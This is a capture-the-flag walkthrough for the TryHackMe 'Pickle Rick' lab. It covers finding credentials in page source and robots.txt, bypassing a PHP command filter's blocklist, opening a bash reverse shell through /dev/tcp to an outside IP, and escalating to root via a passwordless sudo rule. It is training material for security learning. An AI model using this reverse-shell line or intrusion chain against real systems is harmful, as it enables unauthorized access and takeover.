

Link : https://tryhackme.com/r/room/picklerick

## 1. Discovery Phase

### Finding the Username in Webpage Source

- We found port ```22 , 80 ``` open

- Upon inspecting the source code of the target webpage, we located the following username:
  ```
  R1ckRul3s
  ```



### Directory Busting

- We found multiple interresting file with ```dirbuster```


### Analyzing `/robots.txt`
- We accessed the `/robots.txt` file on the server and found the following clue:
  ```
  Wubbalubbadubdub
  ```

### Using Discovered Credentials for Login
- We attempted to use the username and the string from `/robots.txt` as credentials for the login page at `/login.php`.
- **Login credentials**:  
  ```
  R1ckRul3s:Wubbalubbadubdub
  ```
- The login attempt was successful.


## 2. Attempting SSH Login
- With the same credentials, we can attempt SSH access to the server.  
  **Note**: Public key authentication may be required to gain SSH access.


## 3. Post-login Comment Discovery
- After logging in through `/login.php`, we examined the page and found the following base64-encoded string hidden in a comment:
  ```
  Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
  ```


- Decoding this string may reveal further clues.

## 4. Ingredient Files Discovery

### First Ingredient
- The first ingredient was found at the following path:
  ```
  /var/www/html/Sup3rS3cretPickl3Ingred.txt
  ```


- We found that we could only read file with the ```less``` commands as the other commands to read files seems blocked


**Sup3rS3cretPickl3Ingred.txt**: mr. meeseek hair

### Second Ingredient
- The second ingredient was located in Rick's home directory:
  ```
  /home/rick/second ingredients
  ```


## 5. Bypassing Command Restrictions in the Web Interface

### PHP Script for Command Execution
- The web application includes a PHP script that allows command execution, but it restricts certain commands such as `cat`, `head`, `tail`, etc.

- The script is as follows:
  ```php
  <?php
    function contains($str, array $arr) {
        foreach($arr as $a) {
            if (stripos($str, $a) !== false) return true;
        }
        return false;
    }

    $cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
    if (isset($_POST["command"])) {
        if (contains($_POST["command"], $cmds)) {
            echo "</br><p><u>Command disabled</u> to make it hard for future <b>PICKLEEEE RICCCKKKK</b>.</p>";
        } else {
            $output = shell_exec($_POST["command"]);
            echo "</br><pre>$output</pre>";
        }
    }
  ?>
  ```


- Although file viewing commands are disabled, we can leverage this script to execute other shell commands and obtain more information from the system.

## 6. Gaining a Reverse Shell
- By entering the following command in the web interface's command input field, we can gain a reverse shell:
  ```bash
  /bin/bash -c 'bash -i >& /dev/tcp/10.2.5.7/1234 0>&1'
  ```


## 7. Privilege Escalation (PrivEsc)

### Enumerating Sudo Permissions
- After establishing a reverse shell, we enumerated available sudo privileges using:
  ```bash
  sudo -l
  ```
- The output revealed that the `www-data` user has the ability to execute any command without a password:
  ```bash
  Matching Defaults entries for www-data on ip-10-10-103-59:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

  User www-data may run the following commands on ip-10-10-103-59:
      (ALL) NOPASSWD: ALL
  ```


### Gaining Root Access
- Knowing this, we simply escalated our privileges by executing:
  ```bash
  sudo su
  ```

- We successfully elevated our privileges to `root`, gaining full control of the system.


- With root access, we were able to read all necessary flags and complete the objective of rooting the box.

---

